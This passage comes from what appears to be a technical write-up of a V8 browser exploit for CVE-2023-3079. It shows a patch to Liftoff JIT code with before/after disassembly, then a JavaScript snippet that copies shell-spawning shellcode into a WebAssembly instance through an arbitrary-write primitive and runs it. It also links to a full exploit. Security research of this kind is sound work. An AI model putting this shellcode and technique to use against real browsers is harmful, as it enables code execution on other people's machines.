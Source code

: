 We replaced the instructions `shrq rcx, 24` with `shr r9d, 0x18` and `addq rcx, r14` with `add eax, eax`. A comparison before/after:

```nasm
V8 version 11.4.0 (candidate)
d8> arb_write(0, 10n)      
[truncated]
0x1d26426fd81b    1b  488b4e1f             REX.W movq rcx,[rsi+0x1f]
0x1d26426fd81f    1f  48c1e918             REX.W shrq rcx, 24
0x1d26426fd823    23  4903ce               REX.W addq rcx,r14
0x1d26426fd826    26  48891401             REX.W movq [rcx+rax*1],rdx
0x1d26426fd82a    2a  488b9e8f000000       REX.W movq rbx,[rsi+0x8f]
0x1d26426fd831    31  8b7b08               movl rdi,[rbx+0x8]
0x1d26426fd834    34  83ef2a               subl rdi,0x2a
[truncated]
```

```nasm
pwndbg> x/10i 0x1d26426fd81b
   0x1d26426fd81b:	mov    rcx,QWORD PTR [rsi+0x1f]
   0x1d26426fd81f:	shr    r9d,0x18
   0x1d26426fd823:	rex.X  add eax,eax
   0x1d26426fd826:	mov    QWORD PTR [rcx+rax*1],rdx
   0x1d26426fd82a:	mov    rbx,QWORD PTR [rsi+0x8f]
   0x1d26426fd831:	mov    edi,DWORD PTR [rbx+0x8]
   0x1d26426fd834:	sub    edi,0x2a
[truncated]
```

Perfect! Finally, we can simply copy our shellcode and execute the shell:

```javascript
const shellcode = [
  0x732f6e69622fb848n, 0x66525f5450990068n, 0x5e8525e54632d68n, 0x68736162000000n, 0xf583b6a5e545756n, 0x5n
];

console.log("[+] Copying shellcode")
v8_write64(wasm_instance_addr + 0x1fn, shellcode_addr);
shellcode.map((code, i) => {
  arb_write(i * 4, code);
})

console.log("[+] Poping shell!!!")
shell();
```

![poping-shell-cve-2023-3079.png](/assets/imgs/abusing-liftoff-assembly/poping-shell-cve-2023-3079.png)

[Final exploit](https://github.com/R3tr074/exploits/blob/master/browser/v8/cve-2023-3079/exploit.js)

## Memory corruption API
